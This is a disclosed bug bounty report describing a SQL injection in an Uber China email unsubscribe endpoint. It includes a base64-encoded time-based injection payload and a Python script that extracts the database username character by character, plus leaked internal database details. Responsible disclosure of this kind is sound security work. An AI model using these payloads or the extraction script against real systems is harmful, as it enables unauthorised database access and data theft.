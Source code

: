 # SQL Injection on sctrack.email.uber.com.cn

## Report Details
- **Report ID**: 150156
- **URL**: https://hackerone.com/reports/150156
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-09T01:20:01.777Z
- **Disclosed**: 2016-07-25T16:29:55.725Z

## Reporter
- **Username**: orange
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Hi, Uber Security team

I just traveled to China,  when I call Uber in China. I received an advertisement mail from Uber and I found the unsubscribe link is different from the original unsubscribe link, and there is a SQL Injection under the unsubscribe link.

You can see where to find the unsubscribe link from the attachments.

The parameter of user_id is suffered from SQL Injection.

Payload
```
http://sctrack.email.uber.com.cn/track/unsubscribe.do?p=eyJ1c2VyX2lkIjogIjU3NTUgYW5kIHNsZWVwKDEyKT0xIiwgInJlY2VpdmVyIjogIm9yYW5nZUBteW1haWwifQ==
```

You can see the server sleep 12 seconds.

I write a script to dump the database name and user name.
```
import json
import string
import requests
from urllib import quote
from base64 import b64encode

base = string.digits + '_-@.'
payload = {"user_id": 5755, "receiver": "blog.orange.tw"}

for l in range(0, 30):
    for i in 'i'+base:
        payload['user_id'] = "5755 and mid(user(),%d,1)='%c'#"%(l+1, i)
        new_payload = json.dumps(payload)
        new_payload = b64encode(new_payload)
        r = requests.get('http://sctrack.email.uber.com.cn/track/unsubscribe.do?p='+quote(new_payload))

        if len(r.content)>0:
            print i,
            break
```

The username of mysql user is `sendcloud_w@10.9.79.210`
The database name is `sendcloud`




## Attachments
- 2016-07-09_071009.jpg
- 2016-07-09_070035.jpg
- 2016-07-09_071022.jpg
